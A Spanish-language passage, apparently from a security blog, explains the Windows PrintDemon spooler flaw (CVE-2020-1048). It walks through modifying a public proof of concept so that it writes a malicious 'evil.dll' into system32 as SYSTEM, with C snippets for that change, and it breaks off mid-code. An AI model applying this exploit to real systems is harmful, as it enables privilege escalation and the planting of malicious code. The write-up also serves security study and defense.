 
El [artículo](https://windows-internals.com/printdemon-cve-2020-1048/), cuya lectura es absolutamente recomendada, detalla la causa de esta discordancia además de desmenuzar el proceso llevado a cabo por el servicio de impresión de Windows al lanzar una tarea de impresión. Durante este proceso se generan en el directorio `C:\Windows\system32\spool\PRINTERS` los siguientes ficheros:

- `FPnnnnn.SPL` ó `nnnnn.SPL` que básicamente contiene lo que será impreso. 
- `FPnnnnn.SHD` ó `nnnnn.SHD` que contiene los metadatos que definen la tarea de impresión.

No ahondaré en la estructura de el fichero `SHD`, ya que conocerla no resulta imprescindible para entender el procedimiento de explotación llevado a cabo (consultar los [siguientes](https://github.com/ionescu007/PrintDemon) [repositorios](https://github.com/SafeBreach-Labs/Spooler)). Como resumen, cuando se inicia el servicio de impresión de Windows éste comprueba si existe algún fichero shadow (`.SHD`) en el directorio del spooler (normalmente `C:\Windows\system32\spool\PRINTERS`) analizando su contenido y lanzando la impresión del fichero de spool (`.SPL`) asociado y, lo que es más interesante, ejecutando el proceso directamente como `SYSTEM` sin impersonar al usuario que lanzó inicialmente la tarea. Ahora sí, con todas estas piezas, ya podemos montar una prueba de concepto funcional.

Utilizando Visual Studio para abrir el proyecto una vez descargado desde el [repositorio](https://github.com/ionescu007/PrintDemon), el primer paso será modificar en `printserver\pserver.c` el fichero destino utilizado como puerto local de la impresora:

{{< highlight c >}}
    LPWSTR g_PortName = L"c:\\windows\\system32\\evil.dll";
{{< /highlight >}}


Modificaremos también la declaración de las variables `hPrinter` y `hMonitor` asignándoles un valor por defecto igual a `NULL`:

{{< highlight c >}}
    HANDLE hPrinter = NULL;
    HANDLE hMonitor = NULL;
{{< /highlight >}}

Posteriormente agregaremos el fichero de cabecera `strsafe.h` y el siguiente fragmento código, adaptado a partir de una [respuesta](https://stackoverflow.com/questions/14002954/c-programming-how-to-read-the-whole-file-contents-into-a-buffer) en stackoverflow, y que se encargará de copiar el contenido de la DLL maliciosa en una cadena de texto y almacenarla en memoria:

{{< highlight c >}}
    FILE* f;
    wchar_t wDirPath[MAX_PATH];
    DWORD dRet;

    dRet = GetCurrentDirectory(MAX_PATH, wDirPath);
    if (dRet == 0)
    {
        printf("GetCurrentDirectory failed (%d)\n", GetLastError());
        goto CleanupPath;
    }
    wcscat_s(wDirPath, sizeof(wDirPath), L"\\evil.dll");

    _wfopen_s(&f, wDirPath, L"rb");
    fseek(f, 0, SEEK_END);
    long fsize = ftell(f);
    fseek(f, 0, SEEK_SET);
